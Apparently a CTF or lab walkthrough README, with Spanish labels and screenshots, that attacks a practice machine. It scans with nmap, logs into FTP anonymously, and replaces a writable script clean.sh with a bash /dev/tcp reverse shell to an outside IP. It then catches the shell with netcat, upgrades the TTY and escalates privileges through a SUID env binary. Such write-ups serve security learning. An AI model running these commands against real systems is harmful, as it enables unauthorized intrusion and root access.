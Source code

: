 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/068504b7-6b64-4f43-9cf3-dfd3332ff13c"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/b30f7ed0-a42b-4f65-a21e-bbac74ebf87e"></picture></h1>

  ```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/d3212d58-f71f-447a-8b84-6fb548b85688)
![image](https://github.com/user-attachments/assets/75f18b27-5568-4fc8-99c2-4c25d613c19b)

```bash
ftp 10.10.44.169
```
Usuario : anonymous 
Passwd : 
![image](https://github.com/user-attachments/assets/bb2949af-0f23-4823-a4c4-d56bd78dc1a6)

```bash
cat clean.sh
```
![image](https://github.com/user-attachments/assets/63ff8512-fe5e-47a7-b812-c4e7a31521f4)

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.118.81/443 0>&1
```
![image](https://github.com/user-attachments/assets/7a0f08e4-bad8-4f40-bd28-035f2013d764)

```bash
ftp 10.10.44.169
```
Usuario : anonymous 
Passwd : 

```bash
cd scripts
put clean.sh
```
![image](https://github.com/user-attachments/assets/3b41d96f-4567-4a9f-9d7a-cd8eda88acaf)

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/cf470034-3e08-486a-835f-903af176b1a5)



![image](https://github.com/user-attachments/assets/40406fc6-c84b-4b1b-b3c5-8a7cbebd9431)

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![image](https://github.com/user-attachments/assets/7cd147de-4cb3-444c-916a-69a6a053c33a)


```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/c8a4e000-6389-4743-b81a-dd87af4c42b5)

```bash
/usr/bin/env /bin/sh -p
```
![image](https://github.com/user-attachments/assets/50304f5a-5e61-4c48-b444-c5b0b6bed376)


